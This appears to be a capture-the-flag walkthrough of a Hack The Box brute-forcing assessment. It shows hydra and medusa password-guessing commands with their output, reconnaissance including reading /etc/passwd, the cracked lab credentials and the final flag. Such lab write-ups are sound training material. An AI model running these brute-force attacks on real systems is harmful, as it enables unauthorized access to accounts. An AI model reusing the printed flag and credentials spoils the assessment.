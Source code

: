 ﻿This is the second part of the skills assessment.Â `YOU NEED TO COMPLETE THE FIRST PART BEFORE STARTING THIS`. Use the username you were given when you completed part 1 of the skills assessment to brute force the login on the target instance.

![Pasted image 20250213160519.png](../../../../IMAGES/Pasted%20image%2020250213160519.png)

If we recall last part, we found an username:

```
satwossh
```

We can begin our brute forcing by trying to find the password for that username, we suppose its a `ssh` user so, let's do the following command:

```
hydra -l satwossh -P 2023-200_most_used_passwords.txt 94.237.54.164 -s 36513 ssh -t 60
```

We get the following:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-13 21:06:35
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 60 tasks per 1 server, overall 60 tasks, 200 login tries (l:1/p:200), ~4 tries per task
[DATA] attacking ssh://94.237.54.164:36513/
[36513][ssh] host: 94.237.54.164   login: satwossh   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Found credentials:

```
`satwossh`:`password1`
```

Let's log into ssh:

```
ssh satwossh@94.237.54.164 -p 36513
The authenticity of host '[94.237.54.164]:36513 ([94.237.54.164]:36513)' can't be established.
ED25519 key fingerprint is SHA256:0ldLAJLTwIrE2wupFhvN1WiHuimct7AF+pBddY5xIi8.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[94.237.54.164]:36513' (ED25519) to the list of known hosts.
satwossh@94.237.54.164's password:
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
satwossh@ng-1340293-loginbfsatwo-rv3cd-7fdfc99595-9tpzv:~$
```

Nice, let's search the ports and active listening services, also, the home directory:

```
 netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -


nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 21:09 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000076s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
ftp:x:105:107:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
satwossh:x:1000:1000::/home/satwossh:/bin/bash
thomas:x:1001:1001::/var/.hidden:/bin/bash
```

We found ftp, and an user named `thomas`, let's try to brute force the ftp login:

```
which medusa

/usr/bin/medusa
```

Medusa is enabled:

```
medusa -h 127.0.0.1 -u thomas -P passwords.txt -M ftp -t 5

ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: a123456 (28 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: 666666 (29 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: asdfghjkl (30 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: ashley (31 of 198 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: thomas (1 of 1, 0 complete) Password: chocolate! (32 of 198 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: thomas Password: chocolate! [SUCCESS]
```

Found the ftp credentials:

```
`thomas`:`chocolate!`
```

Let's log into ftp:

```
ftp ftp://thomas:'chocolate!'@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||55297|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           28 Sep 10 09:19 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||10266|)
150 Opening BINARY mode data connection for flag.txt (28 bytes).
100% |***********************************************************************************************************************************************************|    28      701.12 KiB/s    00:00 ETA
226 Transfer complete.
28 bytes received in 00:00 (157.14 KiB/s)
ftp> exit
221 Goodbye.

cat flag.txt

HTB{brut3f0rc1ng_succ3ssful}
```

Flag is:

```
HTB{brut3f0rc1ng_succ3ssful}
```


![Pasted image 20250213161640.png](../../../../IMAGES/Pasted%20image%2020250213161640.png)

